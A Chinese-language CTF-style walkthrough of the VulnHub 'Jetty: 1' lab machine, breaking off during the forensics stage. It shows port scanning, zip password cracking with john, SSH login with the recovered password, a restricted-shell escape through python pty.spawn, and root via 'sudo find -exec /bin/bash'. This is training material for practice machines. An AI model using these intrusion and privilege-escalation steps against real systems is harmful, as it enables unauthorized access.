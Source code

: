 靶机信息：

- **Name**: Jetty: 1
- **Date release**: 9 Dec 2020
- **download:**  https://www.vulnhub.com/entry/jetty-1,621/
- **描述：** Aquarium Life SL公司已与您联系，对他们的其中一台机器进行笔测试。他们怀疑他们的一名雇员一直在欺诈售卖假票。他们希望您闯入他的计算机，提升特权并搜索任何证明这种行为的证据。
  - 可疑用户名是squiddie。
  - 他负责水族馆的门票销售。
  - 机器的想法不仅是获得root特权，而且还获得所有证据来证明用户正在欺诈。

## 一、信息收集

#### 1.1 主机发现

 ```bash
nmap -sP 192.168.56.1/24
 ```

![image-20210126172801126](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126172801126.png)

#### 1.2 扫描端口

```bash
➜  ~ nmap -sT -T4 -sV -p- 192.168.56.105
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 17:28 CST
Nmap scan report for localhost (192.168.56.105)
Host is up (0.00088s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
65507/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
MAC Address: 08:00:27:02:95:F3 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.38 seconds
```

开放 21、80、65507 端口。

#### 1.3 端口服务信息收集

80 端口，打开网址只有一张图，扫描目录得到：

```
http://192.168.56.105/
```



![image-20210126174018670](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126174018670.png)

访问 `robots.txt`

```txt
User-agent: *
Disallow: /dir/
Disallow: /passwords/
Disallow: /facebook_photos
Disallow: /admin/secret
```

访问但是 not found.

尝试 21 端口 ftp,

```
ftp://192.168.56.105/
```

![image-20210126174459360](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126174459360.png)

README.TXT 内容：

```txt
Hi Henry, here you have your ssh's password. As you can see the file is encrypted with the default company's password. 
Please, once you have read this file, run the following command on your computer to close the FTP server on your side. 
IT IS VERY IMPORTANT!! CMD: service ftp stop. 

Regards, Michael.
```

下载压缩包有密码，kali爆破：

```bash
zip2john sshpass.zip >>password.txt
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt
Jetty john password.txt --show

# 成功得到密码  seahorse!
➜  Jetty john password.txt --show
sshpass.zip/sshpass.txt:seahorse!:sshpass.txt:sshpass.zip::sshpass.zip

1 password hash cracked, 0 left
```

解压`unzip` ，得到

```
Squ1d4r3Th3B3$t0fTh3W0rLd
```

ssh 密码得到，尝试用户 `Jetty`登录失败，回到最开始的 `squiddie` 尝试成功：

```bash
ssh squiddie@192.168.56.105 -p 65507
```

## 二、漏洞发现

ssh 连接靶机后，发现有很多命令被禁止，输入几次就会被强制退出 ssh 连接。

尝试bash谈一个 shell回来,失败了，收到了限制。

```bash
squiddie:~$ ?
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

发现目标有 python 环境并且不受限制。

python一句话弹升级交互式也失败，但是在python交互界面成功：

```python
>>> import pty
>>> pty.spawn("/bin/bash")
```

或者

```python
>>> import pty
>>> pty.spawn("/bin/bash")
```

![image-20210126200328538](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126200328538.png)

![image-20210126200447978](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126200447978.png)

成功突破限制。

## 三、提权

直接 `sudo -l`

![image-20210126201744737](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126201744737.png)

发现可以以 root 身份执行 find 命令.

**有时用户有权执行特定目录的任何文件或命令，如/bin/cp、/bin/cat或/usr/bin/find，这种类型的权限会导致root权限的权限提升。**

```
sudo find /home -exec /bin/bash \;
```

直接提权为 root .

完成小目标。但是描述说提权只是中等难度，拿到他的犯罪证据才是关键的。

## 四、取证

查看定时任务

![image-20210126202214746](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126202214746.png)

发现有定时任务。

查看它：

```bash
root@jetty:~# cat /etc/cron.daily/backup 
#!/bin/sh

#BACKUP FILES EVERY TWO MINUTES
rsync -raz /root/Documents/.docs /var/backups/
chmod 700 /var/backups/.docs
```

![image-20210126210700528](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126210700528.png)

目录下有很多表格，将其打包，然后开启 http服务(python2)

```bash
python -m SimpleHTTPServer 8000
```



![image-20210126210949592](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126210949592.png)

kali中下载

![image-20210126211103094](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126211103094.png)

成功下载，接下来解压

```bash
unzip doc.zip -d doc/
```

尝试打开文档，但是发现被加密了

![image-20210126211822248](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126211822248.png)

在`Password_keeper` 文件夹下发现，有个exe 文件，还有`database.txt` ，`usage.txt` ,相关联，不能发现是 exe 对表格进行的加密。

![image-20210126212000317](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126212000317.png)

base64解码是乱码。database.txt里面保存着密文，那么关键就是password_keeper.exe程序了。

![image-20210126212359537](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126212359537.png)

运行软件发现， 1 功能可以查看密码，但是还需要密码验证。

https://www.cnblogs.com/backlion/p/10504003.html